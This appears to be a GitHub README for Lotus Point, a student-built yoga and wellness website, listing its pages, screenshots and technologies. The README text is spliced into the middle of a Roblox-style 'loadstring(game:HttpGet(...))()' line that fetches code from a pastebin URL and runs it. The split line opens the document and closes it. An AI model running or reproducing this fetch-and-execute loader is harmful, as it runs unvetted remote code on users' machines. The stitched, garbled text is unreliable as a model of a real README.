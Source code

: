 # project23
loadstring(game:HttpGet(('htt# Lotus Point ✨

### This web-based health and fitness application was developed for the Future Ready Talent Internship Programme, which was launched by Microsoft, Future Skills Prime, Quess, Github, and EY.

### Professional website for Yoga, Pilates, Meditation, Spa, Wellness, Sports & Health, Personal Coach

**Project Link** -
**Demo Video** -  

## Features and Functionalities  
- A user interface that is both interactive and responsive.
- Contains several graphical and visual creative effects.
- Have visually appealing visual design and architecture.
- Comprises a number of web sites such as Home, Services, Gallery, Classes, and Contact Us .
- The website allows the user to take a classes, workshops on fitness.
- Added a feedback Survey form to broaden the scope of improvement.
- serves as a yoga school, retreat center, holistic center, therapists, wellness and spa center or fitness club

## Screenshots 📸
### About Us
![Screenshot 2023-08-11 210744](https://github.com/HarithaBangaru/project23/assets/113615474/1a2f09cd-ae8a-4a11-a08e-7e668febb30c)

### Home
![Screenshot 2023-08-11 210807](https://github.com/HarithaBangaru/project23/assets/113615474/628eee11-26c7-477d-b759-938c02024cf3)


### Services
![Screenshot 2023-08-11 210845](https://github.com/HarithaBangaru/project23/assets/113615474/1ea4a82d-6e86-4d03-aeec-b781f1220825)


### Team
![Screenshot 2023-08-11 210901](https://github.com/HarithaBangaru/project23/assets/113615474/a8882fcf-1b76-4610-b6bf-34c28e4fef7f)

### Fitness Classes 
![Screenshot 2023-08-11 210919](https://github.com/HarithaBangaru/project23/assets/113615474/30c29c3b-b536-4c7b-94b4-4093b731239b)

![Screenshot 2023-08-11 211019](https://github.com/HarithaBangaru/project23/assets/113615474/ebfd7e77-f861-4862-b45d-4559adefcb4c)

### Gallery
 ![Screenshot 2023-08-11 211135](https://github.com/HarithaBangaru/project23/assets/113615474/ced72e77-fcfd-4295-8145-da0dc51b8db6)

### Testimonials

![Screenshot 2023-08-11 211149](https://github.com/HarithaBangaru/project23/assets/113615474/32f74dc4-340b-454f-bc72-36753c1d165c)

### Conact Us 
![Screenshot 2023-08-11 211204](https://github.com/HarithaBangaru/project23/assets/113615474/b2c78133-e84a-44f6-89c0-b7245cf03f49)

## Technology Stack 💻
- [Azure(Hosting)](https://azure.microsoft.com/en-in/features/azure-portal/)
- HTML5
- CSS3
- Bootstrap
- Font awesome icons
- Google Fonts
- Bootstrap Framework
- JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()
